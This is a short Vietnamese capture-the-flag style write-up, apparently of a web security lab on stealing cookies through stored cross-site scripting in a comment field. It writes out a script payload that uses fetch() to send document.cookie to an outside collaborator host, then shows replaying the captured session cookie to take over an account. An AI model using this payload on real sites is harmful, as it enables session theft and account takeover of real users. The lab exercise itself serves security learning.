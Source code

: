 ## Exploiting cross-site scripting to steal cookies

1. Thử gửi nội dung bình luận là: ``<script>alert(1)</script>`` nhận thấy pop-up hiện lên. Từ đó có thể khai thác xss

2. Gửi payload js sử dụng hàm fetch sau để khi load trang comment sẽ gửi một request chứa cookie đến endpoint mà ta có thể kiếm soát.
- Payload:
```<script>fetch("g7o1ukx0xq8e2zpyg4dgr2p980eq2f.burpcollaborator.net/?"+document.cookie);</script>```

3. Trong burp collaborator nhận được các request từ target gửi đến có chứa cookie mà ta cần.

![Img1](\asset/../img/interaction.png)

-> Nhận được 1 cookie `session=9BOeK147eGLaYOoEYjw8Ido5w8oSyQ4l`

4. Gửi lại request vào trang my-account với cookie mới lấy được

![Img2](\asset/../img/done.png)